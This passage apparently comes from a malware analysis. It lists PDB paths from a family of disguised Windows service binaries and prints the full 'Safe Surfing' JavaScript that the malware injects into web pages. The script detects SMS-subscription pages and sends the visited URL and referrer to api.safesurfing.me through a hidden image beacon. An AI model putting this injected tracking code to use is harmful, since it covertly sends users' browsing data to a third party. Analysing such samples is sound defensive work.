D:\work\service\plugins\Release\get_hdd_serial_number.pdb
D:\work\service\plugins\Release\remove_plugins_installer.pdb
D:\work\service\plugins\Release\remove_zaxar.pdb
D:\work\service\plugins\Release\reset_safesurfing_flag.pdb
D:\work\service\service\Release\bstreamsvc.pdb
D:\work\service\service\Release\bstreamsvc_setup.pdb
D:\work\service\service\Release DRTIPROV\ir16_32.pdb
D:\work\service\service\Release\first_service.pdb
D:\work\service\service\Release\first_service_setup.pdb
D:\work\service\service\Release\ihctrl32.pdb
D:\work\service\service\Release\ihctrl32_setup.pdb
D:\work\service\service\Release\ir16_32.pdb
D:\work\service\service\Release\optsatadc.pdb
D:\work\service\service\Release\optsatadc_setup.pdb
D:\work\service\service\Release\themctrl.pdb
D:\work\service\service\Release\themctrl_setup.pdb
D:\work\service\service\Release\wbiosrvp_setup.pdb
D:\work\service\service\Release\wsaudio_setup.pdb
D:\work\ultdr\udsetup\Release\udsetup_winapi_morphed.pdb
Z:\source\service\Release\ir16_32.pdb
Z:\source\service\Release\setup_serv.pdb
----

== The Safe Surfing injected script

[source, javascript]
----
var _________subscribe_checker = {
    _detect_text: ["((\u0443\u0441\u043b\u043e\u0432|\u0443\u043f\u0440\u0430\u0432\u043b)(.*)\u043f\u043e\u0434\u043f\u0438\u0441\u043a)|(\u043f\u043e\u0434\u043f\u0438\u0441\u043a(.*)(\u0443\u0441\u043b\u043e\u0432|\u0443\u043f\u0440\u0430\u0432\u043b))", "\u043f\u0440\u0430\u0432\u0438\u043b(.*)\u043f\u043e\u0434\u043f\u0438\u0441\u043a", "\u0441\u0442\u043e\u0438\u043c\u043e\u0441(.*)\u0443\u0441\u043b\u0443\u0433"],
    _detected_text_count: 0,
    _hrefs: [],
    _description_regex: /(\u0441\u043c\u0441|sms)[- ]\u0441\u043e\u043e\u0431\u0449\u0435\u043d(.*)\u0441(.*)(\u0441\u043b\u043e\u0432|\u0442\u0435\u043a\u0441\u0442|\u043a\u043e\u043c\u0430\u043d\u0434)(.*)(\u0441\u0442\u043e\u043f|stop)/,
    check: function() {
        if (this.isExcluded()) return !1;
        this._hrefs = document.links;
        return 1 == this.checkSiteBySubscribeTextInUrls() ? (this.send("by_text_in_urls"), !0) : 1 == this.checkSiteBySubscribeDescriptionText() ? (this.send("by_subscribe_text"), !0) : !1
    },
    isExcluded: function() {
        return "http:" != document.location.protocol && "https:" != document.location.protocol || this.isExludedDomain(document.location.host) || this.isExludedDomain(document.referrer) ? !0 : this.isExcludedUrl()
    },
    checkSiteBySubscribeTextInUrls: function() {
        for (var a in this._hrefs)
            if (this._hrefs[a].href &&
                this.isSubscribeText(this._hrefs[a].textContent) && 0 == this._detect_text.length) return !0;
        return !1
    },
    checkSiteBySubscribeDescriptionText: function() {
        if (0 == this._detected_text_count) return !1;
        var a = document.body.textContent.split("."),
            b;
        for (b in a)
            if (a[b].toLocaleLowerCase) {
                var c = a[b].toLocaleLowerCase().replace(/(\n)/g, " ").replace(/(\r)/g, "");
                if (this._description_regex.test(c)) return !0
            }
        return !1
    },
    isExludedDomain: function(a) {
        var b = "mts rt megafonpro megafon mpoisk mail google yandex ya rambler youtube dfiles turbobit prom zakupka pravo letitbit ozon urokitio kismia webnice toy mdmbank tele2 roboforex share4web 7do dixy kiino 4allforum delo-press raskachaem satu spmag yugcontract narodnoe materinstvo dimonvideo kia-club deal icloud littlebyte maxpark 24video vdgb trud appsruel tiu blanker aucland office ontabfile microsoft shopotam shareflare autoportal stilagoby malina depositfiles hitfile crocs telecom effectfree forum.calorizator.ru traektoria cdek takko circ-a tinydeal otzyv mamba rusfolder irn labirint vip-file 10.150.0.104".split(" ");
        a = a.split(".");
        if (2 <= a.length)
            for (var c in b)
                if (a[a.length - 2] == b[c]) return !0;
        return !1
    },
    isExcludedUrl: function() {
        for (var a = ["a-elite/scrpop-promka/psr-"], b = 0; b < a.length; ++b)
            if (-1 != document.location.pathname.indexOf(a[b])) return !0;
        return !1
    },
    isSubscribeText: function(a) {
        a = a.toLowerCase().replace(/(\n)/g, " ").replace(/(\r)/g, "");
        for (var b in this._detect_text)
            if ("string" === typeof this._detect_text[b] && 0 != this._detect_text[b].length && (new RegExp(this._detect_text[b].toLowerCase())).test(a)) return this._detect_text.splice(b,
                1), ++this._detected_text_count, !0;
        return !1
    },
    send: function(a) {
        var b = document.createElement("img"),
            c = new Date;
        b.src = "http://api.safesurfing.me/detect/i.php?ss=" + encodeURIComponent(document.location.href) + "&rss=" + encodeURIComponent(document.referrer) + "&r=" + c.getTime() + "&v=2.07&by=" + a;
        b.style.display = "none";
        document.body.appendChild(b)
    }
};
_________subscribe_checker.check();
----
